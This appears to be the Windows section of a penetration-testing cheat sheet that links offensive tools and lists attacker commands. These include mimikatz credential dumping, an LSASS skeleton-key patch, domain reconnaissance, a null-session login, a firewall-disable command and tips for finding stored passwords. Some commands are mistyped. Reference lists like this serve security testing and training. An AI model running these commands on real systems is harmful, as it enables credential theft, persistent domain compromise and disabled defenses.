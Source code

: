 # WINDOWS

* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) - collection of powershell modules for pentesting
* [Nishang](https://github.com/samratashok/nishang) - Powershell framework and collection of scripts and payloads for pentesting
* [USBDumper](http://www.secuobs.com/USBDumper.rar) - silently copies contents of every connected USB device to the system
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - a swiss army knife for pentesting Windows/Active Directory environments
* [Kon-Boot](http://www.piotrbania.com/all/kon-boot/) - silently bypass the authentication process of Windows based OS

Privilege Escalation
--------------------

* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [Potato](https://github.com/foxglovesec/Potato) - privilege escalation on Windos 7, 8, 10, Server 2008, Server 2012
* [AccessEnum](https://technet.microsoft.com/en-us/sysinternals/bb897332.aspx) - tool for analyzing files/dirs user rights
* [Autoruns](http://technet.microsoft.com/en-us/sysinternals/bb963902.aspx ) - tool for managing autorun apps
* [AccessChk](https://technet.microsoft.com/en-us/sysinternals/bb664922.aspx)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) - clearinghouse of common Windows privesc vectors that rely on misconfigurations  

A few useful Windows commands:  

`whoami /groups` shows info about which groups you are in, which integrity level your process is run at  
`systeminfo`  
`net user [username]`  
`schtasks /query /fo LIST /v` - list all scheduled tasks  
`tasklist /SVC` - link running processes to started services  
`wmic qfe get Caption,Description,HotFixID,InstalledOn` - view installed patches

Privilege escalation exploits:

* KiTrap0D (KB979682)
* MS11-011 (KB2393802)
* MS10-059 (KB982799)
* MS10-021 (KB979683)
* MS11-080 (KB2592799)

Other tips

* Search for automated deployment tools config files - they may contain passwords: sysprep.inf, sysprep.xml, unattended.xml, groups.xml (Microsoft public AES key), etc.

Post-Exploitation
-----------------

* [Post-Exploitation with "Incognito"](http://hardsec.net/post-exploitation-with-incognito/?lang=en)
* [PowerShellEmpire](https://github.com/powershellempire/empire) - post-exploitation agent  

If have DC access, use CrackMapExe module to extract ntds.dit (contains AD data) and other modules.  

* [mimikatz](https://github.com/gentilkiwi/mimikatz) - extract plaintext passwords, hashes, PIN codes, kerberos tickets from memory; pass-the-hash. Useful commands:  

`privilege::debug`  
`sekurlsa::LogonPasswords full`  
`!lsadum::cache` - dump cached credentials  
`!lsadump:sam` - dump local user account password hashes  
`misc::cmd` - re-enable command shell, if disabled in registry  
`!misc::memssp` - patch LSASS to log credentials after authentication; see: c:\windows\system32\mimilsa.log  
`misc::skeleton` - (for DCs only) patch LSASS to make "mimikatz" password work for all users on the domain  
`process::suspend [pid]` - suspend a process  
`process::resume [pid]` - resume execution of a progress  

Windows commands:  

`net view /DOMAIN` - find out which domain I trust  
`net view /DOMAIN:[domain]  
net group "domain computers" /DOMAIN` - see which hosts are in a domain  
`nltest /dclist:[domain]` - see which hosts are DCs for a domain  
`nslookup [name]  
ping -n 1 -4 [name]` - map a NetBIOS name to an IPv4 addresses  
`nltest /domain_trusts  
nltest /server:[address] /domain_trusts` - map domain trusts  
`net view \\[name]` - list shares on a host  
`net group "enterprise admins" /DOMAIN` - show ent admins  
`net group "domain admins" /DOMAIN` - show domain admins  
`net localgroup "administrators" /DOMAIN` - show local admins  

Null Session
------------

Open ports? UDP 137 & 138, TCP 139  
`net use \\host\IPC$ "" "/user:"`

Other
-----

Turn off firewall: `NetSh Advfirewall set allprofiles state off`  
* [ntpassword](http://pogostick.net/~pnh/ntpasswd/) - utility to reset Windows passwords
